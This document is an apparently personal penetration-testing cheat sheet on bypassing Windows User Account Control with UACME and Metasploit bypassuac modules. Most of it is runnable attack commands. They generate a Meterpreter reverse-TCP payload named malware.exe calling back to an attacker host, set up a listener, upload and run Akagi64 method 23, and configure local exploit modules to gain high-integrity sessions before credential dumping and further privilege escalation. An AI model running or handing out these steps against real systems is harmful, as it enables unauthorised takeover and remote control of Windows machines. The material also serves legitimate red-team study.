

> [!abstract] Windows UAC Bypass (User Account Control)
> **User Account Control (UAC)** is a Windows security feature that prevents unauthorized changes to the OS by prompting the user for permission or an administrator password. If an attacker compromises a user account that is a member of the local Administrators group, they are running in a "Medium Integrity" context. To perform privileged actions (like `getsystem` or `hashdump`), the attacker must bypass UAC to elevate to "High Integrity".
> **MITRE ATT&CK Mapping:** [T1548.002 - Abuse Elevation Control Mechanism: Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002/)

## UAC Bypass Flow



> [!warning] Prerequisites for UAC Bypass
> 1. The compromised user **must** be a member of the local `Administrators` group.
> 2. UAC must not be set to "Always Notify" (Highest setting), otherwise, interactive prompts will block automated bypasses.

---

## Method 1: UACME (Akagi64.exe)

> [!danger]+ Bypassing UAC with UACME
> UACME is a highly curated collection of Windows UAC bypass methods. It uses various DLL hijacking and COM interface abuses to launch a payload with High Integrity without prompting the user.
> **Resource:** [hfiref0x/UACME](https://github.com/hfiref0x/UACME)
> 
> **Step 1: Generate Payload & Setup Listener**
> ```bash
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe -o malware.exe
> 
> msfconsole -qx "use exploit/multi/handler; set lhost x.x.x.x; set lport 4444; set payload windows/x64/meterpreter/reverse_tcp; run -j"
> ```
> 
> **Step 2: Prepare the Session**
> *Migrating to a stable user process like `explorer.exe` ensures you have the correct user token.*
> ```ruby
> meterpreter> migrate -N explorer.exe
> meterpreter> getuid
> meterpreter> getprivs  # Verify current privileges
> ```
> 
> **Step 3: Upload & Execute**
> ```ruby
> meterpreter> upload malware.exe C:\\Windows\\Temp\\malware.exe
> meterpreter> upload tools/UACME/Akagi64.exe C:\\Windows\\Temp\\Akagi64.exe
> meterpreter> shell
> ```
> ```cmd
> :: Syntax: Akagi64.exe <Method_ID> <Payload_Path>
> :: Method 23 is a common and reliable bypass (e.g., fodhelper hijack)
> C:\Windows\Temp\Akagi64.exe 23 C:\Windows\Temp\malware.exe
> ```
> *If successful, a new Meterpreter session will open in High Integrity context.*

---

## Method 2: Metasploit BypassUAC Modules

> [!tip]+ Metasploit BypassUAC
> If you prefer using built-in Metasploit modules, there are several available. These attempt to bypass UAC by abusing built-in Windows auto-elevating binaries.
> 
> ```ruby
> # 1. Check if getsystem fails (confirming UAC is the issue)
> meterpreter> getsystem
> # [-] priv_elevate_getsystem: Operation failed: Access is denied.
> 
> # 2. Background the session
> meterpreter> background
> 
> # 3. Search for bypass modules
> msf6> search bypassuac
> 
> # 4. Use a specific module (e.g., injection or sdclt bypass)
> msf6> use exploit/windows/local/bypassuac_injection
> # OR
> msf6> use exploit/windows/local/bypassuac_sdclt
> 
> # 5. Configure and run
> msf6> set SESSION 1
> msf6> set payload windows/x64/meterpreter/reverse_tcp
> msf6> set LHOST x.x.x.x
> msf6> set LPORT 4444
> 
> # If default target fails, check and change the target architecture
> msf6> show targets
> msf6> set target 1  # (e.g., Windows x86/x64)
> 
> msf6> exploit
> ```

---

## Post-Bypass Verification & Enumeration

> [!success]+ Verifying High Integrity
> After a successful UAC bypass, you will get a new session. You must verify that you are now running in "High Integrity" before attempting to dump passwords or impersonate SYSTEM.
> 
> **Check Token Integrity Level:**
> ```ruby
> meterpreter> shell
> ```
> ```powershell
> powershell -ep bypass
> 
> # Import the NTObjectManager module (often used for token manipulation)
> Import-Module NTObjectManager
> 
> # Check the integrity level
> Get-NtTokenIntegrityLevel
> # Output should be: High
> ```
> 
> **Run PrivescCheck for further escalation:**
> *Resource:* [itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)
> ```powershell
> powershell -ep bypass -c ". .\PrivescCheck.ps1"
> 
> # Run the audit to find further misconfigurations or paths to SYSTEM
> Invoke-PrivescCheck
> ```

